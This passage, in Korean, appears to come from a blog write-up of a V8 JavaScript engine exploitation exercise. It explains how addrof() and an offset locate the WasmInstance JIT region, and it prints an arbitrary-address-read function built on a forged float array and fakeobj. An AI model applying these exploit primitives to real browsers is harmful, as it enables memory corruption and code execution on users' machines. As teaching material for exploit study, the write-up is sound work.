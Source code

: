 <br><br><br>

서로 같은 버퍼를 가리키고 있고 해당 버퍼값을 float형으로 읽어오는지 혹은 int형으로 읽는지 차이인데  <br>
그러면 내가 원하는 형변환을 진행할 수 있습니다.  <br>

addrof(WasmInstance)를 거치게 되면 WasmInstance의 주소값이 들어가 있게 되는 상태가 되고 이때 0x68을 더해  <br>
JIT 코드가 들어가 있는 영역을 가리키게 됩니다.  <br>

이때 aar() 함수로 넘어가게 됩니다. 

<br><br><br>

```js
// arbitrary address read
function aar(addr) {
    let elements = addr - 8n;  // elements pointer
    let length = 2n;  // length is 1
    let float_arr_struct = [0.1, 0.2];  // fake float array structure
    float_arr_struct[0] = itof(float_arr_map);
    float_arr_struct[1] = itof((length << 32n) | elements);
    let fake = fakeobj(addrof(float_arr_struct) - 0x10n);  // fake float array
    return ftoi(fake[0]);
}
```
<br><br><br>


이 부분에 대해 차근차근 시작해보면 처음에 `elements = addr -8n`을 해주는 걸 볼 수 있습니다. <br>
이 이유는 아까의 oob_aar 배열의 값을 예를 들어서 설명해보겠습니다. 

<br><br><br>

![1.png](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250212/v8(4).png)

<br><br><br>

두번째 줄을 보면 map , properties , elements , length 순이라고 했었습니다. <br>
그래서 만약 저희가 JIT 주소를 배열로 릭해오려고 하는거라면 해당 배열의 [0]인덱스 자리에 위치해야 아까 전의 addrof 함수를 <br>
사용해서 해당 주소를 가져올 수 있을 것입니다. <br>

다음은 길이를 1로 설정하고 가짜 배열을 만들기 위해 float_arr_struct를 이용하여 float형 배열을 하나 만들어줍니다. <br>
이때 해당 배열의 0번 위치에 map , 1번위치에 elements , length 순으로 넣어주는 걸 볼 수 있습니다.  <br>
그 이후에 fakeobj배열을 호출하는데 이때 아까 새로 만들어두었던 float_arr_struct에서 0x10한 값을 인자로 호출합니다.
